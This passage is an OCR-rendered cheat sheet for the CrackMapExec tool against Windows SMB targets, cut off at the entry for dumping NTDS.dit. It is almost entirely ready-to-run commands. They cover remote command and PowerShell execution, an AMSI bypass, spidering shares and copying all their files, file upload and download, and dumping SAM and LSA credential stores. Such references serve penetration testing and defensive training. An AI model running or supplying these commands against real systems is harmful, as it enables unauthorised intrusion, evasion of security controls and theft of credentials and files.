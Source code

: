     ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -x 'whoami'
    ```
*   **Executing PowerShell commands:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable'
    ```
*   **Bypass AMSI:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable' --amsi-bypass /path/payload
    ```
*   **Spidering Shares:** Default option. Notice the '$' character has to be escaped. (example shown can be used as-is in a kali linux terminal)

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --spider C\$ --pattern txt
    ```
*   **Spidering Shares Using Spider\_plus:** The module `spider_plus` allows you to list and dump all files from all readable shares.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus
    ```
*   **Dump all files:** Using the option `-o` READ\_ONLY=false all files will be copied on the host

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus -o READ_ONLY=false
    ```
*   **Upload a local file to the remote target:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --put-file /tmp/whoami.txt [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt)
    ```
*   **Download a file from the remote target:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --get-file  [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt) /tmp/whoami.txt
    ```
*   **Dump SAM:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --sam
    ```
*   **Dump LSA:** Requires Domain Admin or Local Admin Privileges on target Domain Controller

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --lsa
    ```
*   **Dump NTDS.dit:** Requires Domain Admin or Local Admin Privileges on target Domain Controller
